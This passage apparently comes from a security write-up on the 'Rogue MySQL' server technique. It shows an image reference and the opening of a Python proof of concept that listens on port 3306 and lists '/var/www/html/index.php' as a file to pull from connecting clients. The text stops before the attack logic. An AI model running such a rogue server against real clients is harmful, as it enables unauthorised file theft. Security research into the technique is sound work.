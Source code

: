 <img src="Rogue MySQL.assets/image-20200607155549844.png" alt="image-20200607155549844" style="zoom:200%;" />

## <a name = "0x03">0x03 POC</a>

Python

```python
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers



PORT = 3306

log = logging.getLogger(__name__)

log.setLevel(logging.INFO)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
    '/var/www/html/index.php',
)

#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'
```